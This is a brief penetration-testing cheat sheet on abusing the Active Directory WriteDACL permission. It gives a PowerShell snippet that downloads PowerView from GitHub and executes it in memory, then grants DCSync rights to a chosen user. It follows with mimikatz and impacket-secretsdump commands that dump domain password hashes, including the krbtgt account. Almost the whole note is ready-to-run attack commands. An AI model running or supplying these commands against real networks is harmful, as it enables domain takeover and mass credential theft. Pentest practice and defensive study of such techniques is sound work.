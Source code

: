 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# PowerView

Downloadable at [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

## WriteDACL Permission
The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
**After you have created a new user - Then give him DCSync permission**
````powershell
$pass = convertto-securestring '<password' -asplain -force
$cred = new-object system.management.automation.pscredential('<domain>\<username>',$pass)
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')
Add-ObjectACL -PrincipalIdentity <username> -Credentials $cred -Rights DCSync
````
### DCSyncing Hashes
Since the user has now the required privileges to use DCSync, we can use mimikatz or secretdump to dump password hashes from the DC via:
````powershell
lsadump::dcsync /user:krbtgt
````
````powershell
impacket-secretsdump <domain>\<username>@<IP-ADDRESS>
````
